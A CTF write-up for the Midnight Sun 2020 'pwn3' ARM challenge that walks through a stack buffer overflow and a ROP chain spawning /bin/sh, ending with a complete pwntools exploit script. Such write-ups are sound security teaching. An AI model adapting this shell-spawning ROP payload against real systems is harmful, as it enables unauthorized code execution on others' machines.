```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn3
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
pwn3: ELF 32-bit LSB executable, ARM, EABI5 version 1 (GNU/Linux), statically linked,
for GNU/Linux 3.2.0, BuildID[sha1]=46d0723fb9ff9add7b00860a2382f32656a04700, stripped

Arch:     arm-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x10000)
{% endhighlight %}

In this challenge we are dealing with 32bit statically linked arm binary. It contains simple buffer overflow vulnerability.

![code decompiled][decompiled]

Sending 512 bytes casues crash that overwrite program counter (pc) at offset 144. Since the binary is compiled with NX bit it is required to use ROP technique.

{% highlight python %}
payload = (
    b"A" * 140 +

    p32(0x00010170) + # : pop {r3, pc}
    p32(0x43434343) +
    p32(0x00036359) + #  (0x00036359): pop {r0, r1, r2, r6, r7, pc};
    p32(0x00049018) + #  /bin/sh
    p32(0x0) + # r1
    p32(0x0) + # r2
    p32(0x44444444) + # r6
    p32(0xb) + # r7 - execve
    p32(0x00010915) + # (0x00010915): svc #0; pop {r7, pc};
    p32(0x49494949)
)
{% endhighlight %}

We compose our payload with 3 gadgets.
1. Gadget responsible for adjusting stack - `pop {r3, pc}`
2. Gadget setting up registers to our values - `pop {r0, r1, r2, r6, r7, pc}`

r0 - arg1 - address of /bin/sh (can be found in the binary)
r1 - arg2 - 0x0
r2 - arg3 - 0x0
r6 - junk 
r7 - execve syscall number - 0xb

3. Gadget that executes syscall - `svc $0, pop r{7, pc}`

Sending payload to the target results in getting interactive shell.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

payload = (
    b"A" * 140 +

    p32(0x00010170) + # : pop {r3, pc}
    p32(0x43434343) +
    p32(0x00036359) + #  (0x00036359): pop {r0, r1, r2, r6, r7, pc};
    p32(0x00049018) + #  /bin/sh
    p32(0x0) + # r1
    p32(0x0) + # r2
    p32(0x44444444) + # r6
    p32(0xb) + # r7 - execve
    p32(0x00010915) + # (0x00010915): svc #0; pop {r7, pc};
    p32(0x49494949)
)
payload += b"B" * (511 - len(payload))
with open("input", "wb+") as f:
    f.write(payload)

io = process(["qemu-arm", "./pwn3"])
#io = process(["qemu-arm", "-g", "2222", "./pwn3"])
#io = remote("pwn3-01.play.midnightsunctf.se", 10003)

io.recvuntil("buffer: ")
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn3
[decompiled]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn3/decompiled.png
